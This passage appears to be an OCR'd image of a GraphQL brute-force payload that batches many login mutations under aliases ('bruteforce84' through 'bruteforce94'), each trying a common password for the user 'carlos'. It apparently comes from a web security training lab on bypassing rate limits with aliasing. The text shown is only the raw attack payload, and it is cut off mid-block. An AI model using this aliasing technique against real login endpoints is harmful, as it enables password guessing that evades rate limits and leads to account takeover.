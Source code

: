 ```plain
bruteforce84:login(input:{password: "matthew", username: "carlos"}) {
        token
        success
    }


bruteforce85:login(input:{password: "access", username: "carlos"}) {
        token
        success
    }


bruteforce86:login(input:{password: "yankees", username: "carlos"}) {
        token
        success
    }


bruteforce87:login(input:{password: "987654321", username: "carlos"}) {
        token
        success
    }


bruteforce88:login(input:{password: "dallas", username: "carlos"}) {
        token
        success
    }


bruteforce89:login(input:{password: "austin", username: "carlos"}) {
        token
        success
    }


bruteforce90:login(input:{password: "thunder", username: "carlos"}) {
        token
        success
    }


bruteforce91:login(input:{password: "taylor", username: "carlos"}) {
        token
        success
    }


bruteforce92:login(input:{password: "matrix", username: "carlos"}) {
        token
        success
    }


bruteforce93:login(input:{password: "mobilemail", username: "carlos"}) {
        token
        success
    }


bruteforce94:login(input:{password: "mom", username: "carlos"}) {
        token
        success
```